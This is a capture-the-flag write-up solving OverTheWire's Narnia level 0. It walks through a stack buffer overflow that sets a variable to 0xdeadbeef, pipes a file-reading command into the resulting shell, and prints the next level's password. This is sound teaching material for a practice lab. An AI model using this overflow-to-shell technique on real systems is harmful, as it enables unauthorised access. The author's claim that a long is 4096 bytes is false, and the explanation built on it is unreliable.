 ```yaml
---
layout: post
title:  "Narnia Level 0"
date:   2015-09-28 22:04
categories: narnia wargame pwnable overthewire
author: Leander
---
```

This is a solution guide to the Narnia0 Level at [overthewire](http://overthewire.org/wargames/narnia/). This write-up was created on 19 November 2014.

First connect to the lab
<ul><li>ssh narnia0@narnia.labs.overthewire.org</li>
<li>Enter the following as the password narnia0</li></ul>

Change directories to the narnia games folder <code>cd /narnia</code>. First let's examine how we get the password for the next level <code>less /README.txt</code>. This machine holds several wargames. For a generic wargame named "somegame", the usernames are: mygame0, mygame1, ... and most levels are stored in /mygame/. Passwords for each level are stored in /etc/mygame_pass/

So let's try reading the password without any additional work, <code> cat /etc/narnia_pass/narnia1</code>

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@melinda:/narnia$ </code></pre></figure>

Well that didn't work, so lets check out the challenge next. 
Notice all the different files and find the level 0 binary.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@melinda:/narnia$</code></pre></figure>

I start by checking what the file does

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAA %p
buf: AAAA
val: 0x41414141
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>

Well that's interesting that it did something weird with %p. Now let's check the source code, type out <code>cat narnia0.c</code>

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>

  int main(){
  	long val=0x41414141;
// notice the buffer here is 20, which means there may be a potential for a buffer overflow
  	char buf[20];   

  	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
  	printf("Here is your chance: ");
  	scanf("%24s",&buf);   
//notice the buffer read in from the command prompt above is a 24 byte string
//this means that we have a 4 byte overflow

  	printf("buf: %s\n",buf);        //here it prints the 20 bytes from char buf
  	printf("val: 0x%08x\n",val);    //the 4 bytes that overflow fall into val 
  	                                //because it was initialized on the stack below it

  	if(val==0xdeadbeef)             //a successful overflow input will give me a shell!
  		system("/bin/sh");            //system passes a command to the shell and in
  		                              //this case attempts to open a shell
  	else {
  		printf("WAY OFF!!!!\n");
  		exit(1);
  	}

  	return 0;
  }
{% endhighlight %}
  
From inspecting the code we can see that the stack looks something like this:

<figure class="highlight"><pre><code class="language-text" data-lang="text">
||-------------------------||
||                         ||
||                         ||
|| char buff ( 20 bytes )  ||       
||                         ||
||                         ||
||-------------------------||
||   long val ( 4 bytes )  ||
||-------------------------||
</code></pre></figure>
  
Alright now that I know this let's try some crafted input.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that's great, we've just confirmed that we can affect what goes into long val.
It's confirmed that i can overwrite the buffer. Apaprently, I was correct in how the
stack looked and inside it would look similar to this (except in hexadecimal 
representation).

<figure class="highlight"><pre><code class="language-text" data-lang="text">
        ||--------------||
        ||  0x41414141  ||    
        ||  0x41414141  ||
        ||  0x41414141  ||     
        ||  0x41414141  ||
        ||  0x41414141  ||
        ||--------------||
        ||  0x42424242  ||     
        ||--------------||
</code></pre></figure>

Note that 0x41 = A and 0x42 = B, char buff is ( 20 bytes ), and long val is ( 4 bytes ). Now let's try it with deadbeef in there.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "deadbeef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAdead
val: 0x64616564
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that didn't work, because scanf is accepting string characters. So now we need a way to get the proper "characters"
in so that it will display 0xdeadbeef. Remember that you also have to craft the input to be little endian (I think of this
as the input has to be spelled backwards).

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that's weird I didn't get a shell, but the WAY OFF!!!! didn't show. At this point I realized that the /bin/sh needed an input to follow the system command. So then I added more input onto the end.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde" . "cat /etc/narnia0_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
narnia0@melinda:/narnia$</code></pre></figure>

Still no solution. Now I want to create a situation where the program does something unintentional.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"x1100 . "cat /etc/narnia0_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
/bin/sh: 1: ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?cat: Filename too long
narnia0@melinda:/narnia$</code></pre></figure>

<figure class="highlight"><pre><code class="language-text" data-lang="text">
||-------------------------||
||                         ||
||                         ||   
|| char buff ( 20 bytes )  ||   
||                         ||    
||                         ||   
||-------------------------||  
||  buff overflow (4 bytes)||     
          .......                
|| long val ( 4092 bytes ) ||         
          .......
||                         ||
||-------------------------||
</code></pre></figure>

So I discovered I had the stack improperly setup because a long is actually 4096 bytes in size. This was demonstrated by the fact /bin/sh received the input that overflowed from the crafted string that I sent. Well that was useful, now lets whittle it down so that the /bin/sh command takes the correct input. All I should have to do now is remove the extra bytes.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde" . "B"x4072 . "cat /etc/narnia_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
efeidiedae
narnia0@melinda:/narnia$</code></pre></figure>
  
BINGO! We have a solution. The password file for narnia1 is <code>efeidiedae</code>.
